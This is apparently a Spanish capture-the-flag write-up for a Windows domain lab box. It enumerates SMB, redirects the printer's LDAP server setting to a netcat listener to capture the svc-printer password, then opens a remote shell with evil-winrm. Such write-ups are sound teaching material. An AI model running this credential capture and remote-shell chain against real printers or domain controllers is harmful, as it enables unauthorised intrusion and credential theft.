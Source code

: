 ## Enumerar el servicio SMB

```bash
$ enum4linux -a 10.10.11.108
================================( Getting domain SID for 10.10.11.108 )===============================                                                                           
Domain Name: RETURN                                                                                                                                                                          
Domain Sid: S-1-5-21-3750359090-2939318659-876128439

[+] Host is part of a domain (not a workgroup)
```

Como no permite NULL o sesiones de invitado pasamos la página web.

## IIS

![image](https://github.com/user-attachments/assets/07eebb5b-5911-47c9-b8b0-f4e673143320)
![image](https://github.com/user-attachments/assets/6e5eb4a8-3048-43db-bbe5-78aa83719af8)

## Foothold

Estos dispositivos almacenan credenciales LDAP y SMB para que la impresora pueda consultar la lista de usuarios desde Active Directory y guardar los archivos escaneados en una unidad de usuario. Estas páginas de configuración suelen permitir especificar el controlador de dominio o el servidor de archivos. Vamos a crear una escucha en el puerto 389 (LDAP) y especificar nuestra dirección IP tun0 en el campo Dirección del servidor.

Hacemos una escucha
```bash
$ sudo nc -lvp 389
listening on [any] 389 ...
10.10.11.108: inverse host lookup failed: Unknown host
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.108] 59316
0*`%return\svc-printer�
1edFg43012!!

```

La conexión se recive y vemos que aparecen las credenciales de "svc-printer"
El puerto de WinRM está abierto por lo que utilizaremos "evil-winrm"
```bash
$ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
   
Evil-WinRM shell v3.5
  
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
  
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
   
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```
